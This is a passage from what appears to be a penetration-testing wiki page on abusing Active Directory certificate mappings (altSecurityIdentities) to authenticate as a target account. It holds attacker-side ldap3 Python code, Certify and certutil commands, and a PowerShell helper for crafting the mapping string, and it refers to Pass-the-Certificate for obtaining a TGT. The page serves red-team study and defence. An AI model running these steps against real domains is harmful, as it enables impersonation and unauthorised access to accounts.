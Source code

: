 ```python
)

conn.unbind()
```

The certificate requested at the begining can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

The certificate mapping written can be cleaned with the following python script.

```python
import ldap3

server = ldap3.Server('<DC_HOST>')
victim_dn = "<TARGET_DN>"
attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
attacker_password = "<ATTACKER_PASSWORD>"

conn = ldap3.Connection(
    server=server,
    user=attacker_username,
    password=attacker_password,
    authentication=ldap3.NTLM
)
conn.bind()

conn.modify(
    victim_dn,
    {'altSecurityIdentities':[(ldap3.MODIFY_DELETE, '<X509IssuerSerialNumber>')]}
)

conn.unbind()
```

=== Windows

From Windows systems, [Certify](https://github.com/GhostPack/Certify) (C#) can be used to enroll on a certificate template.

```powershell
Certify.exe request /ca:domain\ca /template:Machine /machine
```

Then, the `certutil` utility permits to merge the PFX and dump the serial number and the issuer DN from it.

```powershell
certutil -MergePFX .\cert-a.pem .\cert-a.pfx
certutil -Dump -v .\cert-a.pfx
```

Following this, the [Get-X509IssuerSerialNumberFormat](https://github.com/JonasBK/Powershell/blob/master/Get-X509IssuerSerialNumberFormat.ps1) script (PowerShell) allows to craft a X509IssuerSerialNumber mapping string well formated.

```powershell
Get-X509IssuerSerialNumberFormat -SerialNumber $SERIAL_NUMBER -IssuerDistinguishedName $ISSUER_DN
```
